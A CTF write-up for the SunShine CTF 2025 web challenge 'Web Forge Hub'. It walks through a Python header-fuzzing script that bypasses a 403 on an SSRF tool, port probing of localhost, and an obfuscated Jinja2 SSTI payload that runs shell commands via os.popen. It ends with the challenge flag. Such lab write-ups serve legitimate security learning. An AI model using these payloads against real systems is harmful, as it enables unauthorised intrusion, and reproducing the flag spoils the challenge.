



# Web Forge Hub — SunShine CTF 2025

> **Room / Challenge:** Web Forge Hub (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** SunShine CTF 2025
- **Challenge:** Web Forge Hub (web)
- **Target / URL:** `https://wormhole.sunshinectf.games/`
- **Difficulty:** `Medium`
- **Points:** `363`
- **Date:** `29-09-2025`

---

## Goal

We have to get the flag through SSRF Tool

## My Solution

This is the home page when we visit the website.


Through the content of the home page, and the menu links we just have the SSRF Tool which is in `/fetch` url where we can take step in it.

Access to `/fetch` we can receive this message `403 Forbidden: missing or incorrect SSRF access header`. It gives us a hint: we're missing a header attribute that it needs.

I found out `/robots.txt` is accessible in this website. It has this content:

```
User-agent: *
Disallow: /admin
Disallow: /fetch

# internal SSRF testing tool requires special auth header to be set to 'true'
```

Therefore, that special header has to be set to `true`.

Use a `header_fuzzer.py` script, we will find that header.

```python
import requests

def find_ssrf_access_header(url):
    """
    Tests a list of highly probable custom HTTP headers and a specific cookie
    to find the one that grants access to the SSRF endpoint by bypassing the
    403 Forbidden response.
    """
    print(f"[*] Starting access bypass fuzzing against: {url}")

    # List of highly probable custom headers for internal/CTF access bypass
    possible_headers = [
        # --- Core SSRF & Auth Bypass Headers ---
        "X-SSRF-Access",
        "SSRF-Access",
        "X-SSRF-Auth",
        "SSRF-Auth",
        "X-Allow-SSRF",
        "Allow-SSRF",
        "Enable-SSRF",
        "X-Enable-SSRF",
        "X-Internal-SSRF",
        "Internal-SSRF",
        "X-Access-Allowed",
        "Access-Allowed",
        "X-Bypass",
        "Bypass-Security",
        "X-Security-Override",
        "Security-Override",
        "X-Challenge-Bypass",
        "Allow"
    ]

    # The required value based on the robots.txt hint
    required_value = 'true'
    found_bypasses = []

    # We use a 403 status code as the failure indicator
    EXPECTED_FAILURE_CODE = 403

    # Set up generic headers for testing
    generic_headers = {'User-Agent': 'CTF-Header-Fuzzer/1.0'}

    # --- 1. Test standard headers ---
    for header_name in possible_headers:
        # Construct the headers dictionary for the request
        test_headers = generic_headers.copy()
        test_headers[header_name] = required_value

        print(f"[*] Testing Header: {header_name} -> {required_value}...", end=" ")

        try:
            # Using GET for the initial check, as it's less likely to trigger rate limits
            response = requests.get(url, headers=test_headers, timeout=5)
            status_code = response.status_code
            print(f"Status: {status_code}")

            if status_code != EXPECTED_FAILURE_CODE:
                found_bypasses.append({
                    "type": "Header",
                    "name": header_name,
                    "value": required_value,
                    "status": status_code,
                    "preview": response.text[:50].replace('\n', ' ')
                })
                print(f"[!!! SUCCESS !!!] Header: {header_name} changed the response!")

        except requests.exceptions.RequestException as e:
            print(f"Error connecting: {e}")

    print("\n--- Fuzzing Complete ---")
    if found_bypasses:
        print("[+] Potential Access Bypass(es) Found:")
        for bypass in found_bypasses:
            print(f"    - Type: {bypass['type']} | Name: {bypass['name']}: {bypass['value']} | Status: {bypass['status']} | Preview: '{bypass['preview']}...'")
        print("\nUse the successful method (Header or Cookie) along with the 'url' parameter in a POST request to access http://127.0.0.1/admin.")
    else:
        print("[-] No success. The required bypass might be non-standard or missing from the list.")

if __name__ == "__main__":
    TARGET_URL = "https://wormhole.sunshinectf.games/fetch"
    find_ssrf_access_header(TARGET_URL)
```

We can see that `Allow -> True` gives us access to this internal SSRF Tool.


We cannot add header in normal browser, so from now I will use **Postman** to interact with this internal SSRF Tool _(you can use Burp Suite or whatever you're familiar with)_.



Let's try type target to `http://127.0.0.1/admin` to see how this tool works since the flag is in `/admin`.


It said I missing template query param. I try `http://127.0.0.1/admin?template=something` and I got this error.

```
ERROR: HTTPConnectionPool(host='127.0.0.1', port=80): Max retries exceeded with url: /admin?template=something (Caused by NewConnectionError('<urllib3.connection.HTTPConnection object at 0x7989bc777240>: Failed to establish a new connection: [Errno 111] Connection refused'))
```

`Connection refused` maybe I still get access to the correct `/admin` so I have to port fuzzing. I found port 8000 is open. Type `http://127.0.0.1:8000/admin?template=something` to the target.



Hmm, so whatever I type to the `template` it will return the same. I got stuck here a little but the website need template so I try SSTI payloads online.

You can get a lot from [https://github.com/payloadbox/ssti-payloads](https://github.com/payloadbox/ssti-payloads).

I tried all of them and there is just one payload works.

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```


The result is:

```
uid=999(unprivileged) gid=999(unprivileged) groups=999(unprivileged)
```

Now we get access to it, just exploit with bash commands:

Payload:

```
http://127.0.0.1:8000/admin?template={{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls -la')|attr('read')()}}
```

Use `ls -la`, the result is:



Use `cat flag.txt` for somehow it returns `Nope.` so I just run `cat flag` to get the flag


Flag: `sun{h34der_fuzz1ng_4nd_ssti_1s_3asy_bc10bf85cabe7078}`
